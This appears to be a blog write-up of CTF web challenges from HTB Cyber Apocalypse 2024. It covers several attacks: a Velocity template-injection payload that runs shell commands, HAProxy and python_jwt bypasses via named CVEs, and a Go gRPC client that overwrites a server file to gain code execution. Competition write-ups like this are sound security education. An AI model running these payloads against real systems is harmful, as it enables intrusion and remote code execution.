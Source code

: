 ```yaml
---
title: HTB Cyber Apocalypse CTF 2024 Web Writeups
date: 2024-03-15
tags: Web
categories: CTF Writeups
---
```


This CTF happened during my midterms and I didn't really have the luxury of time to look at some of the later challenges. I participated under team youtiaos, and we ended 97th place out of 5694 teams.

## Lightning Round
TimeKORP - Trivial command injection in format parameter 
KORP terminal - SQLmap + bcrypt hash cracking

## Labyrinth Linguist
We're given a Java application using the Apache Velocity templating engine. We have user controlled input via `textString` that we can inject Velocity templates into.

```java
t.setData(runtimeServices.parse(reader, "home"));
t.initDocument();
VelocityContext context = new VelocityContext();
context.put("name", "World");

StringWriter writer = new StringWriter();
t.merge(context, writer);
template = writer.toString();
```

`context.put("name", "World");` is the key here. Exclusion of this line would make RCE a lot harder, but since we have this object in our context we can simply access the Java `Class` object through `.getClass()`. We can therefore inject:

```
#set($str=$name.getClass().forName("java.lang.String"))
#set($chr=$name.getClass().forName("java.lang.Character"))
#set($ex=$name.getClass().forName("java.lang.Runtime").getRuntime().exec("cat ../flag.txt"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

to read the flag.

## LockTalk
We're given a Flask application through HAProxy. The flag is accessible through `/flag`:

```python
@api_blueprint.route('/flag', methods=['GET'])
@authorize_roles(['administrator'])
def flag():
    return jsonify({'message': current_app.config.get('FLAG')}), 200
```

The `authorize_roles` decorator is as shown:

```python
def authorize_roles(roles):
    def decorator(func):
        @wraps(func)
        def wrapper(*args, **kwargs):
            token = request.headers.get('Authorization')

            if not token:
                return jsonify({'message': 'JWT token is missing or invalid.'}), 401

            try:
                token = jwt.verify_jwt(token, current_app.config.get('JWT_SECRET_KEY'), ['PS256'])
                user_role = token[1]['role']

                if user_role not in roles:
                    return jsonify({'message': f'{user_role} user does not have the required authorization to access the resource.'}), 403

                return func(*args, **kwargs)
            except Exception as e:
                return jsonify({'message': 'JWT token verification failed.', 'error': str(e)}), 401
        return wrapper
    return decorator
```

There are two things in our way.

Firstly, HAProxy here acts as a firewall and prevents all requests to the API.

```
frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend

    http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

Looking at the dockerfile however, we can see that a specific version of HAProxy is being used:

```docker
RUN wget https://www.haproxy.org/download/2.8/src/haproxy-2.8.1.tar.gz
```

Simply using [CVE-2023-45539](https://nvd.nist.gov/vuln/detail/CVE-2023-45539) will allow us to bypass the firewall.

Second is the JWT verification. Unfortunately, looking at `requirements.txt`, they're install a specific version of python_jwt:

```
python_jwt==3.3.3
```

Using [CVE-2022-39227](https://nvd.nist.gov/vuln/detail/CVE-2022-39227) will allow us to bypass authentication and masquerade as an administrator.


## Testimonial
We're given a golang application with file upload using gRPC. Flag is in the root directory. Both the application and the gRPC Ricky server are exposed. Air is used to live-reload the application.

Intuitively, if the file upload is insecure, we can overwrite an application file with a malicious script that reads the flag file and reload the application to reflect our changes.

The client filters the uploaded file name on the client:

```go
func (c *Client) SendTestimonial(customer, testimonial string) error {
	ctx := context.Background()
	// Filter bad characters.
	for _, char := range []string{"/", "\\", ":", "*", "?", "\"", "<", ">", "|", "."} {
		customer = strings.ReplaceAll(customer, char, "")
	}

	_, err := c.SubmitTestimonial(ctx, &pb.TestimonialSubmission{Customer: customer, Testimonial: testimonial})
	return err
}
```

We can easily bypass the check by communicating directly with the gRPC server.

```go
package main

import (
    "context"
    "fmt"
    "sol/pb"
    "log"
    "os"

    "google.golang.org/grpc"
)

func main() {
    serverAddr := "grpcserver:port"

    conn, err := grpc.Dial(serverAddr, grpc.WithInsecure())
    if err != nil {
        log.Fatalf("Failed to connect: %v", err)
    }
    defer conn.Close()

    client := pb.NewRickyServiceClient(conn)

    customer := "uploaded_filename"
	fileContent, err := os.ReadFile("local_copy_of_file")

	if err != nil {
		fmt.Printf("Error reading file: %v\n", err)
		return
	}

	testimonial := string(fileContent)

    err = sendTestimonial(client, customer, testimonial)
    if err != nil {
        log.Fatalf("Failed to send: %v", err)
    }

    fmt.Println("Win")
}

func sendTestimonial(client pb.RickyServiceClient, customer, testimonial string) error {
    ctx := context.Background()
    _, err := client.SubmitTestimonial(ctx, &pb.TestimonialSubmission{
        Customer:    customer,
        Testimonial: testimonial,
    })
    return err 
}
```

We can iteratively search for a useful file we have permissions to overwrite, and home.go serves that purpose.

```go
func HandleHomeIndex(w http.ResponseWriter, r *http.Request) error {
	customer := r.URL.Query().Get("customer")
	testimonial := ""
	
	files, err := ioutil.ReadDir("/")
	if err != nil {
		testimonial = "Error reading root directory"
	}

	if testimonial == "" {
		for _, file := range files {
			if filepath.Ext(file.Name()) == ".txt" {
				content, err := ioutil.ReadFile(filepath.Join("/", file.Name()))
				if err != nil {
					fmt.Printf("Error reading file %s: %v\n", file.Name(), err)
					continue
				}
				testimonial += string(content)
			}
		}
	}

	if customer != "" && testimonial != "" {
		c, err := client.GetClient()
		if err != nil {
			http.Error(w, err.Error(), http.StatusInternalServerError)

		}

		if err := c.SendTestimonial(customer, testimonial); err != nil {
			http.Error(w, err.Error(), http.StatusInternalServerError)

		}
	}
	return home.Index().Render(r.Context(), w)
}
```

We now need to reload the application and submit a new testimonial, thereby calling the malicious home handler. Looking at `air.toml`:

```
include_ext = ["tpl", "tmpl", "templ", "html"]
```

All we need to do is create a new file with one of these extensions and we can retrieve the flag.

## SerialFlow
I had no time to solve this one, but I took a quick look at the challenge. It uses a vulnerable version of `py-memcached` to store the session cookie, which uses unsafe pickle deserialization methods. I tried a few encoding methods to upload a simple payload during the last hour of the CTF, but none of them worked.

After the CTF, I read a few writeups and apparently octal works. Unfortunate.